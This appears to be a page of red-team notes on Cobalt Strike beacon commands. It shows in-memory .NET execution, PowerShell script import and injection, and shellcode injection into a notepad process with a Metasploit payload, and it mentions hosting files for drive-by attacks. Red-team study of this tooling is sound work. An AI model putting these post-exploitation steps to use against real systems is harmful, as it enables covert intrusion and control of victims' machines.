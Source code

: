 
## Execute Assembly

The `execute-assembly` command allows the beacon to run `.NET` executables directly from memory.

```
beacon> execute-assembly [/path/script.exe]  [arguments]
```

## PowerShell Commands

There are different ways to execute powershell commands on the beacon.

```powershell
# Import a Powershell .ps1 script from the control server and save it in memory in Beacon
beacon > powershell-import [/path/to/script.ps1]

# Setup a local TCP server bound to localhost and download the script imported from above using powershell.exe. Then the specified function and any arguments are executed and output is returned.
beacon > powershell [commandlet][arguments]

# Launch the given function using Unmanaged Powershell, which does not start powershell.exe. The program used is set by spawnto
beacon > powerpick [commandlet] [argument]

# Inject Unmanaged Powershell into a specific process and execute the specified command. This is useful for long-running Powershell jobs
beacon > psinject [pid][arch] [commandlet] [arguments]
```
## Shellcode Injection

It is possible to inject shellcode directly on a existent process. Its very useful when we need to spawn a listener of a different C2 or a meterpreter.

```
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 1492  4268  notepad.exe                  x64   1           CORP\user

beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

# Hosting Files

Cobalt Strike allows us to host files in his web server. Go to `Attacks -> Web Drive-by -> Host File`.


![](/hackingnotes/images/cobaltstrike-hostfile.png)
